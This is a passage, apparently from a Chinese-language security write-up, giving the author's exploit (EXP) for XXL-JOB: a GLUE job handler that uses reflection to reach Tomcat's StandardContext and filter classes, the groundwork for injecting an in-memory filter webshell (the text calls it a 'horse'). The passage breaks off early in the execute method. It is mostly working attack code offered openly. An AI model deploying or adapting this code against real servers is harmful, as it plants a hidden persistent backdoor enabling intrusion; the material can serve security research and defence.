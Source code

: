 1.  不支持内部类的写法，字符串中的`this$0`需要转义...

#### EXP

几经修改有了以下代码，虽然马子本身比较简单，但又是改 java-object-searcher 又是改语法，最终还是花了点时间才写完。

```bash
import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Constructor;
import java.util.ArrayList;

import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

import com.xxl.job.core.context.XxlJobHelper;
import com.xxl.job.core.handler.IJobHandler;

public class DemoGlueJobHandler extends IJobHandler {

    public Object getField(Object obj, String fieldName){
        try {
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            obj = field.get(obj);
        } catch (IllegalAccessException e) {
            XxlJobHelper.log(e.toString());
            return null;
        } catch (NoSuchFieldException e) {
            XxlJobHelper.log(e.toString());
            return null;
        }
        return obj;
    }

    public Object getSuperClassField(Object obj, String fieldName){
        try {
            Field field = obj.getClass().getSuperclass().getDeclaredField(fieldName);
            field.setAccessible(true);
            obj = field.get(obj);
        } catch (IllegalAccessException e) {
            XxlJobHelper.log(e.toString());
            return null;
        } catch (NoSuchFieldException e) {
            XxlJobHelper.log(e.toString());
            return null;
        }
        return obj;
    }

    public void execute() throws Exception {
        Object obj = null;
        String port = "";
```